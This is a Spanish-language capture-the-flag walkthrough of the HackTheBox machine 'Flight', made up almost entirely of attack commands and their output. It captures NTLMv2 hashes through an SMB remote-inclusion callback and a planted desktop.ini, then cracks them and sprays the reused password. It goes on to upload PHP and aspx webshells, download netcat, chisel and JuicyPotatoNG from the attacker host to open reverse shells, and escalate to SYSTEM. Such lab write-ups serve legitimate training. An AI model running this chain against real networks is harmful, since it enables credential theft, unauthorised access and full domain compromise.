







Resolución de la máquina Flight de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.187
Nmap scan report for 10.10.11.187
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
5985/tcp open wsman
Usando curl y mirando el servidor podemos ver que se lekea el dominio flight.htb
❯ curl -s 10.10.11.187 | html2text | tail -n3
Copyright 2022 flight.htb - All Rights Reserved
Designed by Geiseric & JDgodd
Ya que tenemos un dominio podemos intentar buscar subdominios con gobuster
❯ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u flight.htb -t 100
===============================================================
[+] Url: http://flight.htb
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: school.flight.htb (Status: 200) [Size: 3996]
Después de agregar el host podemos ver el dominio en el navegador

Podemos fuzzear algun parametro que nos lleve a un lfi o rfi
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u "http://school.flight.htb/index.php?FUZZ=index.php" -t 100 --hh 3996
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://school.flight.htb/index.php?FUZZ=index.php
Total requests: 4711
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000004391: 200 91 L 249 W 3194 Ch "view"
Podemos comprobar el el navegador que funciona el parametro
Mas que intentar ver archivos locales de la máquina podemos intentar realizar un rfi a un servicio smb de nuestra maquina, asi el servicio realizará una autenticación y nos mostrara el hash ntlmv2 del usuario corriendo, tal como en la máquina responder del starting point
Iniciamos creando un servicio smb asignandole un nombre
❯ sudo impacket-smbserver parrotsec . -smb2support
Impacket v0.9.25 - Copyright 2021 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
Hacemos una petición usando curl, con el rfi apuntando a nuestro servicio smb
❯ curl -s "http://school.flight.htb/?view=//10.10.14.10/parrotsec" &>/dev/null
Revisamos nuestro servicio creado por smb y podemos ver el hash ntmlv2 de la autenticación
[*] Config file parsed
[*] Incoming connection (10.10.11.187,51155)
[*] AUTHENTICATE_MESSAGE (flight\svc_apache,G0)
[*] User G0\svc_apache authenticated successfully
[*] svc_apache::flight:aaaaaaaaaaaaaaaa:90d2adf9a1238c1f60cd7bfc06e2da31:010100000000000080fb15e996fad801b92679b7c9e2b2e100000000010010007300570048007100690051007900660003001000730057004800710069005100790066000200100052006f0044004e004700460046007a000400100052006f0044004e004700460046007a000700080080fb15e996fad8010600040002000000080030003000000000000000000000000030000039fe97e432d46b6a874c75adc65b49315a947ffdb6c1d420ca39b4f2ba87f3470a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00350037000000000000000000
[*] Closing down connection (10.10.11.187,51155)
[*] Remaining connections []
Metemos el hash en un archivo de texto y procedemos a crackearlo con john
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
S@Ss!K@*t13 (svc_apache)
Session completed
Podemos comprobar las credenciales con crackmapexec y son correctas
❯ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13'
SMB 10.10.11.187 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.187 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
Con credenciales válidas podemos dumpear los usuarios existentes
❯ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' --users
SMB 10.10.11.187 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.187 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
SMB 10.10.11.187 445 G0 [+] Enumerated domain user(s)
SMB 10.10.11.187 445 G0 flight.htb\O.Possum badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\svc_apache badpwdcount: 0 baddpwdtime: 2022-11-17 21:42:14.899862+00:00
SMB 10.10.11.187 445 G0 flight.htb\V.Stevens badpwdcount: 1 baddpwdtime: 2022-11-17 21:41:06.483686+00:00
SMB 10.10.11.187 445 G0 flight.htb\D.Truff badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\I.Francis badpwdcount: 1 baddpwdtime: 2022-11-17 21:41:05.056435+00:00
SMB 10.10.11.187 445 G0 flight.htb\W.Walker badpwdcount: 1 baddpwdtime: 2022-11-17 21:41:07.926283+00:00
SMB 10.10.11.187 445 G0 flight.htb\C.Bum badpwdcount: 0 baddpwdtime: 2022-09-22 21:50:15.815981+00:00
SMB 10.10.11.187 445 G0 flight.htb\M.Gold badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\L.Kein badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\G.Lors badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\R.Cold badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\S.Moon badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\krbtgt badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\Guest badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB 10.10.11.187 445 G0 flight.htb\Administrator badpwdcount: 0 baddpwdtime: 2022-11-01 02:58:04.270580+00:00
Metemos los usuarios en un archivo users y probamos si otro reutiliza la contraseña
❯ crackmapexec smb 10.10.11.187 -u users -p 'S@Ss!K@*t13' --continue-on-success
SMB 10.10.11.187 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.187 445 G0 [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
SMB 10.10.11.187 445 G0 [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [+] flight.htb\S.Moon:S@Ss!K@*t13
SMB 10.10.11.187 445 G0 [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB 10.10.11.187 445 G0 [-] flight.htb\:S@Ss!K@*t13 STATUS_LOGON_FAILURE
S.Moon la utiliza, podemos buscar un directorio smb donde tenga permisos de escritura
❯ crackmapexec smb 10.10.11.187 -u S.Moon -p 'S@Ss!K@*t13' --shares
SMB 10.10.11.187 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.187 445 G0 [+] flight.htb\S.Moon:S@Ss!K@*t13
SMB 10.10.11.187 445 G0 [+] Enumerated shares
SMB 10.10.11.187 445 G0 Share Permissions Remark
SMB 10.10.11.187 445 G0 ----- ----------- ------
SMB 10.10.11.187 445 G0 ADMIN$ Remote Admin
SMB 10.10.11.187 445 G0 C$ Default share
SMB 10.10.11.187 445 G0 IPC$ READ Remote IPC
SMB 10.10.11.187 445 G0 NETLOGON READ Logon server share
SMB 10.10.11.187 445 G0 Shared READ,WRITE
SMB 10.10.11.187 445 G0 SYSVOL READ Logon server share
SMB 10.10.11.187 445 G0 Users READ
SMB 10.10.11.187 445 G0 Web READ
De primeras al conectarnos con smbclient no podemos ver nada pero podemos escribir
❯ smbclient //10.10.11.187/Shared -U S.Moon --password 'S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Thu Nov 17 16:19:41 2022
.. D 0 Thu Nov 17 16:19:41 2022
5056511 blocks of size 4096. 989779 blocks available
smb: \>
Creamos un archivo malicioso que apunte como icono a nuestro recurso, si alguien entra a la carpeta a monitorear intentará cargar el icono y al autenticarse nos dara el hash ntmlv2
Podemos usar un desktop.ini con la siguiente estructura
[.ShellClassInfo]
IconResource=\\10.10.14.10\parrotsec\
Creamos de nuevo el servicio smb con impacket para recibir la autenticación
❯ sudo impacket-smbserver parrotsec . -smb2support
Impacket v0.9.25 - Copyright 2021 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
Subimos el archivo desktop.ini y esperamos a que el usuario intente cargar
smb: \> put desktop.ini
putting file desktop.ini as \desktop.ini (0.2 kb/s) (average 0.2 kb/s)
smb: \> dir
. D 0 Thu Nov 17 16:23:56 2022
.. D 0 Thu Nov 17 16:23:56 2022
desktop.ini A 55 Thu Nov 17 16:23:56 2022
5056511 blocks of size 4096. 987523 blocks available
smb: \>
Después de unos momentos intentara cargar el recurso y nos llegara el hash ntmlv2
[*] Config file parsed
[*] Incoming connection (10.10.11.187,51214)
[*] AUTHENTICATE_MESSAGE (flight.htb\c.bum,G0)
[*] User G0\c.bum authenticated successfully
[*] c.bum::flight.htb:aaaaaaaaaaaaaaaa:dab564466243c92dd8185f3200d01abf:01010000000000008055d24d99fad8013874deb992d0058500000000010010004d0065006e0062006200640073005200030010004d0065006e0062006200640073005200020010006e007500470079007a006e004c004100040010006e007500470079007a006e004c004100070008008055d24d99fad8010600040002000000080030003000000000000000000000000030000039fe97e432d46b6a874c75adc65b49315a947ffdb6c1d420ca39b4f2ba87f3470a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00350037000000000000000000
[*] Closing down connection (10.10.11.187,51214)
[*] Remaining connections []
Crackeamos el hash nuevo y conseguimos la contraseña de C.Bum
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Tikkycoll_431012284 (c.bum)
Session completed
Comprobamos con las credenciales si podemos escribir en otro recurso y vemos que en web
❯ crackmapexec smb 10.10.11.187 -u C.Bum -p Tikkycoll_431012284 --shares
SMB 10.10.11.187 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.187 445 G0 [+] flight.htb\C.Bum:Tikkycoll_431012284
SMB 10.10.11.187 445 G0 [+] Enumerated shares
SMB 10.10.11.187 445 G0 Share Permissions Remark
SMB 10.10.11.187 445 G0 ----- ----------- ------
SMB 10.10.11.187 445 G0 ADMIN$ Remote Admin
SMB 10.10.11.187 445 G0 C$ Default share
SMB 10.10.11.187 445 G0 IPC$ READ Remote IPC
SMB 10.10.11.187 445 G0 NETLOGON READ Logon server share
SMB 10.10.11.187 445 G0 Shared READ,WRITE
SMB 10.10.11.187 445 G0 SYSVOL READ Logon server share
SMB 10.10.11.187 445 G0 Users READ
SMB 10.10.11.187 445 G0 Web READ,WRITE
Al entrar con smbclient podemos ver que tenemos acceso de escritura en ambos dominios
❯ smbclient //10.10.11.187/Web -U C.Bum --password Tikkycoll_431012284
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Thu Nov 17 16:38:43 2022
.. D 0 Thu Nov 17 16:38:43 2022
flight.htb D 0 Thu Nov 17 16:37:00 2022
school.flight.htb D 0 Thu Nov 17 16:37:00 2022
5056511 blocks of size 4096. 974066 blocks available
smb: \>
Esto no podria ser mas simple, solo descargamos una webshell en php y la subimos con put
smb: \> cd flight.htb
smb: \flight.htb\> put webshell.php
putting file webshell.php as \flight.htb\webshell.php
smb: \flight.htb\>
Abrimos el php en flight.htb y podemos ejecutar comandos como svc_apache

Para hacer una revshell podemos iniciar por crear un directorio en C:\

Ahora descargar el netcat.exe de nuestra maquina y almacenarlo en el directorio creado

Finalmente ejecutamos el netcat y nos enviamos una powershell

❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.187
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\xampp\htdocs\flight.htb> whoami
flight\svc_apache
PS C:\xampp\htdocs\flight.htb>
Tenemos credenciales válidas por smb, podemos probar las de C.Bum con RunasCs.exe
Simplemente lo descargamos y ejecutamos pasandole las credenciales, powershell y un host
PS C:\xampp\htdocs\flight.htb> .\RunasCs.exe C.bum Tikkycoll_431012284 powershell -r 10.10.14.10:443
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5e00b$\Default
[+] Async process 'powershell' with pid 320 created and left in background.
PS C:\xampp\htdocs\flight.htb>
Con esto recibimos una nueva shell en nuestro listener esta vez como c.bum
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.187
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
flight\c.bum
PS C:\Windows\system32> type C:\Users\C.Bum\Desktop\user.txt
1f8*************************f57
PS C:\Windows\system32>
Mirando los puertos internos podemos ver que esta abierto el 8000
PS C:\Windows\system32> netstat -oat
Active Connections
Proto Local Address Foreign Address State PID Offload State
TCP 0.0.0.0:80 g0:0 LISTENING 4648 InHost
TCP 0.0.0.0:88 g0:0 LISTENING 644 InHost
TCP 0.0.0.0:135 g0:0 LISTENING 912 InHost
TCP 0.0.0.0:389 g0:0 LISTENING 644 InHost
TCP 0.0.0.0:443 g0:0 LISTENING 4648 InHost
TCP 0.0.0.0:445 g0:0 LISTENING 4 InHost
TCP 0.0.0.0:464 g0:0 LISTENING 644 InHost
TCP 0.0.0.0:593 g0:0 LISTENING 912 InHost
TCP 0.0.0.0:636 g0:0 LISTENING 644 InHost
TCP 0.0.0.0:5985 g0:0 LISTENING 4 InHost
TCP 0.0.0.0:8000 g0:0 LISTENING 4 InHost
Para hacer port forwarding iniciamos con ejecutando chisel como server
❯ chisel server --reverse --port 9999
server: Reverse tunnelling enabled
server: Listening on http://0.0.0.0:9999
Desde la máquina windows descargamos y ejecutamos chisel como cliente
PS C:\Gato> curl 10.10.14.10/chisel.exe -o chisel.exe
PS C:\Gato> .\chisel.exe client 10.10.14.10:9999 R:8000:127.0.0.1:8000
client: Connecting to ws://10.10.14.10:9999
client: Connected (Latency 94.8528ms)
Ahora en el localhost por el puerto 8000 tenemos un servicio web
No hay nada interesante pero en inetpub hay un directorio que parecen ser sus recursos
PS C:\inetpub> dir
Directory: C:\inetpub
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 9/22/2022 12:24 PM custerr
d----- 11/17/2022 2:57 PM development
d----- 9/22/2022 1:08 PM history
d----- 9/22/2022 12:32 PM logs
d----- 9/22/2022 12:24 PM temp
d----- 9/22/2022 12:28 PM wwwroot
PS C:\inetpub> cd development
PS C:\inetpub\development> dir
Directory: C:\inetpub\development
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 11/17/2022 2:57 PM css
d----- 11/17/2022 2:57 PM fonts
d----- 11/17/2022 2:57 PM img
d----- 11/17/2022 2:57 PM js
-a---- 4/16/2018 2:23 PM 9371 contact.html
-a---- 4/16/2018 2:23 PM 45949 index.html
PS C:\inetpub\development>
La web interpreta aspx entonces subimos una shell en aspx en este directorio
PS C:\inetpub\development> curl 10.10.14.10/cmd.aspx -o cmd.aspx
PS C:\inetpub\development>
Miramos el archivo aspx en el navegador y podemos ejecutar comandos

Ahora simplemente nos enviamos una reverse shell con el netcat

❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.187
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
En los privilegios del usuario podemos encontrar el famoso SeImpersonatePrivilege
PS C:\windows\system32\inetsrv> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege Add workstations to domain Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\windows\system32\inetsrv>
Descargamos el JuicyPotatoNG de nuestra máquina y ejecutamos el exe, podemos decirle que nos otorgue una cmd y entrar en modo interactivo, ahora somos nt authority\system
PS C:\Gato> curl 10.10.14.10/JuicyPotatoNG.exe -o JP.exe
PS C:\Gato> .\JP.exe -t * -p "C:\Windows\System32\cmd.exe" -i
JuicyPotatoNG
by decoder_it & splinter_code
[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51}
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51}
[+] CreateProcessAsUser OK
[*] Process output:
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\> whoami
nt authority\system
C:\> type C:\Users\Administrator\Desktop\root.txt
ac2**************************f8e
C:\>